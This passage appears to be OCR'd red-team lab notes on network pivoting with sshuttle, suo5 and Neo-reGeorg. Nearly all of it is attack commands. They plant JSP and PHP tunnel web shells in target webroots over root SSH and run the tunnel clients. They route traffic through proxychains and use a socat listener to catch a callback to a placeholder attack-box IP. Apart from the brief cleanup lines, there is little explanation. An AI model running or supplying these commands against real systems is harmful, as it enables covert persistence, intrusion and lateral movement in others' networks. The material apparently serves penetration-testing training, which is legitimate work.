 ### clean up sshuttle

```
[[ sshuttle~connect ]]
sudo pkill sshuttle
sudo iptables -t nat -nvL
```

## suo5

```
[[ SUO5~Demo ]]*
cd tools/suo5
cat assets/java/suo5.jsp | ssh root@tom "cat - | sudo tee /usr/share/tomcat/webapps/ROOT/suo5.jsp"
chmod +x suo5-linux-amd64
./suo5-linux-amd64 -t http://tom:8080/suo5.jsp
```

```
[[ SUO5~CallMe ]]*
sudo sed -i '/^socks/Ic\socks5 127.0.0.1 1111' /etc/proxychains4.conf
tail /etc/proxychains4.conf
	#make sure it says socks5 127.0.0.1 9050

lsof -i tcp:4444
	socat -u tcp-listen:4444,reuseaddr,fork open:/tmp/PROOF,create,append &

cat /tmp/PROOF
proxychains -q callMe.sh linux 80 <ATTACK_BOX_IP> 4444 tcp
cat /tmp/PROOF
	#Notice we got a callback through our socks proxy
```




## Neo-reGeorg

```
[[ NeoreGeorg~Demo ]]*
cd tools/Neo-reGeorg
./neoreg.py generate -k password
cat neoreg_servers/tunnel.php | ssh -o StrictHostKeyChecking=no root@lamp 'cat - |sudo tee /var/www/html/tunnel.php'

./neoreg.py -k password -u http://lamp/tunnel.php --php -vvv
```

```
[[ NeoreGeorg~CallMe ]]*
sudo sed -i '/^socks/Ic\socks5 127.0.0.1 1080' /etc/proxychains4.conf
tail /etc/proxychains4.conf
	#make sure it says socks5 127.0.0.1 1080

lsof -i tcp:4444
	socat -u tcp-listen:4444,reuseaddr,fork open:/tmp/PROOF,create,append &

cat /tmp/PROOF
proxychains -q callMe.sh linux 80 <ATTACK_BOX_IP> 4444 tcp
cat /tmp/PROOF
	#Notice we got a callback through our socks proxy
```
